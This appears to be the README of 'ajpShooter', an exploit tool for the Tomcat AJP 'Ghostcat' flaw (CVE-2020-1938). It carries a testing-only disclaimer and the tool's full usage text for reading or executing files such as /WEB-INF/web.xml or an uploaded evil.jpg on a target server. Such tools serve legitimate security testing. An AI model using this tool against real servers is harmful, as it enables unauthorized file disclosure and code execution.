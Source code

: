 # Ghostcat


exp for CNVD-2020-10487(CVE-2020-1938)

tomcat ajp协议任意属性设置导致的文件读取和文件执行。

[漏洞分析](https://www.00theway.org/2020/02/22/ajp-shooter-from-source-code-to-exploit/)

# 代码仅供安全测试，请勿用于非法用途,造成的后果使用者负责与本人无关！！！


```
python3 ajpShooter.py -h

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test

usage: ajpShooter.py [-h] [--ajp-ip AJP_IP] [-H HEADER]
                     [-X {GET,POST,HEAD,OPTIONS,PROPFIND}] [-d DATA]
                     [-o OUT_FILE] [--debug]
                     url ajp_port target_file {read,eval}

positional arguments:
  url                   target site's context root url like
                        http://www.example.com/demo/
  ajp_port              ajp port
  target_file           target file to read or eval like /WEB-
                        INF/web.xml,/image/evil.jpg
  {read,eval}           read or eval file

optional arguments:
  -h, --help            show this help message and exit
  --ajp-ip AJP_IP       ajp server ip,default value will parse from from url
  -H HEADER, --header HEADER
                        add a header
  -X {GET,POST,HEAD,OPTIONS,PROPFIND}
                        Sets the method (default: GET).
  -d DATA, --data DATA  The data to POST
  -o OUT_FILE, --out-file OUT_FILE
                        write response to file
  --debug
```

read file

![](ajp-read.png)

execute file

![](ajp-execute.png)

save file

![](ajp-save.png)


TODO

* POST DATA
* run as a proxy
